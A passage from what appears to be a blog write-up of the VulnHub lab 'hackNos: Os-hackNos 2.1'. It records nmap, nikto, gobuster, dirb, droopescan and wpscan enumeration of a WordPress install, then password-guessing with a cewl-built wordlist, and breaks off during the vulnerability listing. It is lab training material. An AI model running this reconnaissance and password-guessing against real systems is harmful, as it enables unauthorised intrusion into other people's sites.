








<html lang="en">
    <head>
        <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1">
        <title>/f0c1s/blog/sec/vulnhub/hackNos-os-hackNos-2.1</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/hackNos-os-hackNos-2.1</h1>

<nav>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/hackNos-os-hackNos-2.1/hackNos-os-hackNos-2.1.html">+ hackNos: Os-hackNos 2.1 - 2022.01.03 Monday</a>
</nav>

## Description

> Difficulty : Easy to Intermediate
>
> Flag : 2 Flag first user And second root
>
> Learning : Web Application | Enumeration | Password Cracking
>
> \## Changelog - 2019-12-13 ~ v1.1 - 2019-11-29 ~ v1.0

[VulnHub: https://www.vulnhub.com/entry/hacknos-os-hacknos-21,403/](https://www.vulnhub.com/entry/hacknos-os-hacknos-21,403/)
[Series: https://www.vulnhub.com/series/hacknos,257/](https://www.vulnhub.com/series/hacknos,257/)



## Scanning

```shell
fping -aAqg 192.168.56.1/24 | tee fping.txt
192.168.56.1
192.168.56.2
192.168.56.57
192.168.56.70

```

```shell
export RHOST="192.168.56.57"
export LHOST="192.168.56.70"
export LPORT="443"

```

```shell
_n $RHOST
firing nmap 192.168.56.57 | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 11:53 IST
Nmap scan report for 192.168.56.57
Host is up (0.00041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

```

```shell
_ntd $RHOST
firing nmap 192.168.56.57 -p- -Pn -A -T4 --min-rate=5000 -sVC | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 11:53 IST
Nmap scan report for 192.168.56.57
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:36:4e:71:6a:83:e2:c1:1e:a9:52:64:45:f6:29:80 (RSA)
|   256 b4:ce:5a:c3:3f:40:52:a6:ef:dc:d8:29:f3:2c:b5:d1 (ECDSA)
|_  256 09:6c:17:a1:a3:b4:c7:78:b9:ad:ec:de:8f:64:b1:7b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.94 seconds

```

```shell
sudo nmap $RHOST -n -p- -Pn -T4 --min-rate=5000 --top-ports=100 -sU --open | tee nmap.udp.top-100.txt
[sudo] password for f0c1s:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 11:53 IST
Nmap scan report for 192.168.56.57
Host is up (0.00064s latency).
All 100 scanned ports on 192.168.56.57 are in ignored states.
Not shown: 95 open|filtered udp ports (no-response), 5 closed udp ports (port-unreach)
MAC Address: 08:00:27:E1:9A:77 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.07 seconds

```

## Attacking web



```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.57
+ Target Hostname:    192.168.56.57
+ Target Port:        80
+ Start Time:         2022-01-03 11:53:43 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5978e3d67036e, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ Uncommon header 'link' found, with multiple values: (<http://192.168.56.57/tsweb/index.php/wp-json/>; rel="https://api.w.org/",<http://192.168.56.57/tsweb/>; rel=shortlink,)
+ /tsweb/: Microsoft TSAC found. http://www.dslwebserver.com/main/fr_index.html?/main/sbs-Terminal-Services-Advanced-Client-Configuration.html
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26522 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-01-03 11:55:07 (GMT5.5) (84 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

```shell
feroxbuster -q -u http://$RHOST/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
Scanning: http://192.168.56.57/
^C
```


```shell
gobuster dir --url http://$RHOST -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/wfuzz/general/big.txt -b 404,403 -q

```


```shell
gobuster dir --url http://$RHOST/tsweb/ -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 404,403 -q
/index.php            (Status: 301) [Size: 0] [--> http://192.168.56.57/tsweb/]
/wp-content           (Status: 301) [Size: 325] [--> http://192.168.56.57/tsweb/wp-content/]
/wp-login.php         (Status: 200) [Size: 5635]
/license.txt          (Status: 200) [Size: 19935]
/wp-includes          (Status: 301) [Size: 326] [--> http://192.168.56.57/tsweb/wp-includes/]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 323] [--> http://192.168.56.57/tsweb/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://192.168.56.57/tsweb/wp-login.php?action=register]
^C
[!] Keyboard interrupt detected, terminating.

```

```shell
droopescan scan wordpress -u http://$RHOST/tsweb -t 16
modules [ =                                                  ] 1/350 (0%)[+]  Got an HTTP 500 response.
modules [ =                                                  ] 2/350 (0%)[+]  Got an HTTP 500 response.
[+] Plugins found:
    akismet http://192.168.56.57/tsweb/wp-content/plugins/akismet/
        http://192.168.56.57/tsweb/wp-content/plugins/akismet/readme.txt

[+] Themes found:
    twentyseventeen http://192.168.56.57/tsweb/wp-content/themes/twentyseventeen/
        http://192.168.56.57/tsweb/wp-content/themes/twentyseventeen/readme.txt
        http://192.168.56.57/tsweb/wp-content/themes/twentyseventeen/screenshot.png
    twentysixteen http://192.168.56.57/tsweb/wp-content/themes/twentysixteen/
        http://192.168.56.57/tsweb/wp-content/themes/twentysixteen/readme.txt
        http://192.168.56.57/tsweb/wp-content/themes/twentysixteen/screenshot.png

[+] Possible version(s):
    5.3

[+] Possible interesting urls found:
    This CMS&#x27; default changelog. - http://192.168.56.57/tsweb/readme.html

[+] Scan finished (0:00:01.236267 elapsed)
```


```shell
dirb http://$RHOST/tsweb

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jan  3 12:00:41 2022
URL_BASE: http://192.168.56.57/tsweb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.57/tsweb/ ----
+ http://192.168.56.57/tsweb/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-content/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-includes/
+ http://192.168.56.57/tsweb/xmlrpc.php (CODE:405|SIZE:42)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/ ----
+ http://192.168.56.57/tsweb/wp-admin/admin.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/css/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/images/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/includes/
+ http://192.168.56.57/tsweb/wp-admin/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/js/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/maint/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/network/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-admin/user/

---- Entering directory: http://192.168.56.57/tsweb/wp-content/ ----
+ http://192.168.56.57/tsweb/wp-content/index.php (CODE:200|SIZE:0)
==> DIRECTORY: http://192.168.56.57/tsweb/wp-content/plugins/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-content/themes/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-content/upgrade/
==> DIRECTORY: http://192.168.56.57/tsweb/wp-content/uploads/

---- Entering directory: http://192.168.56.57/tsweb/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/network/ ----
+ http://192.168.56.57/tsweb/wp-admin/network/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.57/tsweb/wp-admin/network/index.php (CODE:302|SIZE:0)

---- Entering directory: http://192.168.56.57/tsweb/wp-admin/user/ ----
+ http://192.168.56.57/tsweb/wp-admin/user/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.57/tsweb/wp-admin/user/index.php (CODE:302|SIZE:0)

---- Entering directory: http://192.168.56.57/tsweb/wp-content/plugins/ ----
+ http://192.168.56.57/tsweb/wp-content/plugins/index.php (CODE:200|SIZE:0)

---- Entering directory: http://192.168.56.57/tsweb/wp-content/themes/ ----
+ http://192.168.56.57/tsweb/wp-content/themes/index.php (CODE:200|SIZE:0)

---- Entering directory: http://192.168.56.57/tsweb/wp-content/upgrade/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.57/tsweb/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon Jan  3 12:00:54 2022
DOWNLOADED: 32284 - FOUND: 11

```

### feroxbuster

```shell
feroxbuster -q -u http://$RHOST/tsweb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
301        9l       28w      325c http://192.168.56.57/tsweb/wp-content
301        9l       28w      332c http://192.168.56.57/tsweb/wp-content/themes
301        9l       28w      333c http://192.168.56.57/tsweb/wp-content/uploads
301        9l       28w      333c http://192.168.56.57/tsweb/wp-content/plugins
301        9l       28w      326c http://192.168.56.57/tsweb/wp-includes
301        9l       28w      333c http://192.168.56.57/tsweb/wp-includes/images
301        9l       28w      333c http://192.168.56.57/tsweb/wp-content/upgrade
301        9l       28w      330c http://192.168.56.57/tsweb/wp-includes/css
301        9l       28w      329c http://192.168.56.57/tsweb/wp-includes/js
301        9l       28w      333c http://192.168.56.57/tsweb/wp-includes/blocks
301        9l       28w      334c http://192.168.56.57/tsweb/wp-includes/widgets
301        9l       28w      332c http://192.168.56.57/tsweb/wp-includes/fonts
301        9l       28w      336c http://192.168.56.57/tsweb/wp-includes/customize
301        9l       28w      339c http://192.168.56.57/tsweb/wp-includes/certificates
301        9l       28w      323c http://192.168.56.57/tsweb/wp-admin
301        9l       28w      330c http://192.168.56.57/tsweb/wp-admin/images
301        9l       28w      328c http://192.168.56.57/tsweb/wp-admin/user
301        9l       28w      331c http://192.168.56.57/tsweb/wp-admin/network
301        9l       28w      327c http://192.168.56.57/tsweb/wp-admin/css
301        9l       28w      332c http://192.168.56.57/tsweb/wp-admin/includes
301        9l       28w      326c http://192.168.56.57/tsweb/wp-admin/js
301        9l       28w      331c http://192.168.56.57/tsweb/wp-includes/Text
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_57_tsweb_-1641191603.state ...
Scanning: http://192.168.56.57/tsweb/
Scanning: http://192.168.56.57/tsweb/wp-content
Scanning: http://192.168.56.57/tsweb/wp-includes
Scanning: http://192.168.56.57/tsweb/wp-admin

```

### wpscan

```shell
cewl http://$RHOST/tsweb --with-numbers -d 4 -e >> cewl.txt

```

```shell
wpscan --url http://$RHOST/tsweb --api-token="$WP_API_TOKEN" --passwords ./cewl.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.56.57/tsweb/ [192.168.56.57]
[+] Started: Mon Jan  3 12:04:17 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.57/tsweb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.57/tsweb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.57/tsweb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.57/tsweb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3 identified (Insecure, released on 2019-11-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.56.57/tsweb/index.php/feed/, <generator>https://wordpress.org/?v=5.3</generator>
 |  - http://192.168.56.57/tsweb/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.3</generator>
 |
 | [!] 20 vulnerabilities identified:
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Improper Access Controls in REST API
 |     Fixed in: 5.3.1
 |     References:
 |      - https://wpscan.com/vulnerability/4a6de154-5fbd-4c80-acd3-8902ee431bd8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20043
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16788
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-g7rg-hchx-c2gw
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Crafted Links
 |     Fixed in: 5.3.1
 |     References:
 |      - https://wpscan.com/vulnerability/23553517-34e3-40a9-a406-f3ffbe9dd265
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20042
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://hackerone.com/reports/509930
 |      - https://github.com/WordPress/wordpress-develop/commit/1f7f3f1f59567e2504f0fbebd51ccf004b3ccb1d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xvg2-m2f4-83m7
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Block Editor Content
 |     Fixed in: 5.3.1
 |     References:
 |      - https://wpscan.com/vulnerability/be794159-4486-4ae1-a5cc-5c190e5ddf5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16781
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16780
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pg4x-64rh-3c9v
 |
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 |     Fixed in: 5.3.1
 |     References:
 |      - https://wpscan.com/vulnerability/8fac612b-95d2-477a-a7d6-e5ec0bb9ca52
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20041
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/b1975463dd995da19bb40d3fa0786498717e3c53
 |
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/7db191c0-d112-4f08-a419-a1cd81928c4e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11027
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47634/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ww7v-jg8c-q6jw
 |
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/d1e1ba25-98c9-4ae7-8027-9632fb825a56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11028
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
